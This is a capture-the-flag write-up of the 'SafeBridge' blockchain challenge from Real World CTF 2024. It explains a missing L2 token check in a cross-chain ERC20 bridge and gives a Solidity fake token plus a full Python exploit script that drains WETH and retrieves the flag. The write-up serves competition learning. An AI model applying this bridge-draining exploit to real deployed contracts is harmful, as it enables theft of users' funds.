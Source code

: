 ```yaml
---
title: Blockchain - SafeBridge
description: 2024 | Real World CTF | Blockchain
tags:
    - smart contract
    - cross chain
    - data validation
---
```


## Description

I've crafted what I believed to be an ultra-safe token bridge. Don't believe it?

> nc 47.251.56.125 1337

[:material-download: `safebridge.zip`](static/safebridge.zip)

## Solution

- This challenge is derived from [Enterprise Blockchain](paradigm/enterprise_blockchain.md) in Paradigm CTF 2023. The `CrossDomainMessenger.sendMessage()` function, which can be used for sending cross-chain messages, is still public available. The difference is that when finalizing a cross-chain token transfer, it will verify whether the initiator of the cross-chain message is the bridge on the corresponding chain. Thus, cross-chain token transfers are only possible via `L1ERC20Bridge.depositERC20() / L1ERC20Bridge.depositERC20To()` and `L2ERC20Bridge.withdraw() / L2ERC20Bridge.withdrawTo()`

    ```js
    function finalizeERC20Withdrawal(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        public
        onlyFromCrossDomainAccount(l2TokenBridge)
    {
        deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] - _amount;
        IERC20(_l1Token).safeTransfer(_to, _amount);
        emit ERC20WithdrawalFinalized(_l1Token, _l2Token, _from, _to, _amount);
    }

    modifier onlyFromCrossDomainAccount(address _sourceDomainAccount) {
        require(msg.sender == address(getCrossDomainMessenger()), "messenger contract unauthenticated");

        require(
            getCrossDomainMessenger().xDomainMessageSender() == _sourceDomainAccount,
            "wrong sender of cross-domain message"
        );

        _;
    }
    ```

- To withdraw WETH from L1Bridge, we need to invoke the `L2ERC20Bridge.withdraw()` function. In `_initiateWithdrawal()`, `l1Token` is read from `_l2Token`. Since the `_l2Token` provided by users could be a custom token, then only the value of `L1ERC20Bridge.deposits[weth][_l2Token]` should not be less than the amount to be transferred

    ```js
    function withdraw(address _l2Token, uint256 _amount) external virtual {
        _initiateWithdrawal(_l2Token, msg.sender, msg.sender, _amount);
    }

    function _initiateWithdrawal(address _l2Token, address _from, address _to, uint256 _amount) internal {
        IL2StandardERC20(_l2Token).burn(msg.sender, _amount);

        address l1Token = IL2StandardERC20(_l2Token).l1Token();
        bytes memory message;
        if (_l2Token == Lib_PredeployAddresses.L2_WETH) {
            message = abi.encodeWithSelector(IL1ERC20Bridge.finalizeWethWithdrawal.selector, _from, _to, _amount);
        } else {
            message = abi.encodeWithSelector(
                IL1ERC20Bridge.finalizeERC20Withdrawal.selector, l1Token, _l2Token, _from, _to, _amount
            );
        }

        sendCrossDomainMessage(l1TokenBridge, message);

        emit WithdrawalInitiated(l1Token, _l2Token, msg.sender, _to, _amount);
    }
    ```

- When initiating a transfer from L1 to L2, if `_l1Token` is `weth`, the corresponding amount of `L2_WETH` will be minted in `L2ERC20Bridge.finalizeDeposit()`. However, `_l2Token` may not be `L2_WETH`. If `_l2Token` is a custom token controlled by the player, not only can player obtain `L2_WETH`, but `deposits[weth][_l2Token]` will also increase

    ```js
    function depositERC20(address _l1Token, address _l2Token, uint256 _amount) external virtual {
        _initiateERC20Deposit(_l1Token, _l2Token, msg.sender, msg.sender, _amount);
    }

    function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
            internal
    {
        IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

        bytes memory message;
        if (_l1Token == weth) { // @audit-issue no check if _l2Token is L2_WETH
            message = abi.encodeWithSelector(
                IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
            );
        } else {
            message =
                abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
        }

        sendCrossDomainMessage(l2TokenBridge, message);
        deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

        emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
    }
    ```

- Since `deposits[weth][L2_WETH]` already has a value, we can drain WETH in l1Bridge with `L2_WETH` and custom `_l2Token`

### Exploitation

```js
contract FakeL2StandardERC20 is L2StandardERC20 {
    constructor(address _l1Token) L2StandardERC20(_l1Token, "FAKE", "FAKE") {}

    function mint(address _to, uint256 _amount) public override {
        _mint(_to, _amount);
    }
}
```

```py
import pwn
from cheb3 import Connection
from cheb3.utils import load_compiled

fake_abi, fake_bin = load_compiled('L2StandardERC20.sol', 'FakeL2StandardERC20')
challenge_abi, _ = load_compiled('Challenge.sol')
weth_abi, _ = load_compiled('WETH.sol')
l1bridge_abi, _ = load_compiled('L1ERC20Bridge.sol')
l2bridge_abi, _ = load_compiled('L2ERC20Bridge.sol')

L2_ERC20_BRIDGE = "0x420000000000000000000000000000000000baBe"
L2_WETH = "0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000"
AMOUNT = int(2e18)

HOST = "47.251.56.125"
PORT = 1337
TOKEN = "<team-token>"
svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"1")

svr.recvuntil(b"rpc endpoints:")
l1 = Connection(svr.recvline_contains(b"l1").replace(b"-", b"").strip().decode())
l2 = Connection(svr.recvline_contains(b"l2").replace(b"-", b"").strip().decode())

priv = svr.recvline_contains(b"private").split(b":")[-1].strip().decode()
challenge_addr = svr.recvline_contains(b"challenge").split(b":")[-1].strip().decode()
svr.close()

l1account = l1.account(priv)
l2account = l2.account(priv)

challenge = l1.contract(l1account, address=challenge_addr, abi=challenge_abi)
weth_addr = challenge.caller.WETH()
l1bridge_addr = challenge.caller.BRIDGE()

# deploy the custom token
fake = l2.contract(l2account, abi=fake_abi, bytecode=fake_bin)
fake.deploy(weth_addr)

# obtain L2_WETH and increase deposits[weth][fake]
weth = l1.contract(l1account, address=weth_addr, abi=weth_abi)
weth.functions.deposit().send_transaction(value=AMOUNT)
weth.functions.approve(l1bridge_addr, AMOUNT).send_transaction()
l1bridge = l1.contract(l1account, address=l1bridge_addr, abi=l1bridge_abi)
l1bridge.functions.depositERC20(weth_addr, fake.address, AMOUNT).send_transaction()

# withdraw
fake.functions.mint(l2account.address, AMOUNT).send_transaction()
fake.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge = l2.contract(l2account, address=L2_ERC20_BRIDGE, abi=l2bridge_abi)
l2bridge.functions.withdraw(fake.address, AMOUNT).send_transaction()

l2weth = l2.contract(l2account, address=L2_WETH, abi=weth_abi)
l2weth.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge.functions.withdraw(L2_WETH, AMOUNT).send_transaction()

assert challenge.caller.isSolved()

svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"3")
svr.interactive()
```

### Flag

> rwctf{yoU_draINED_BriD6E}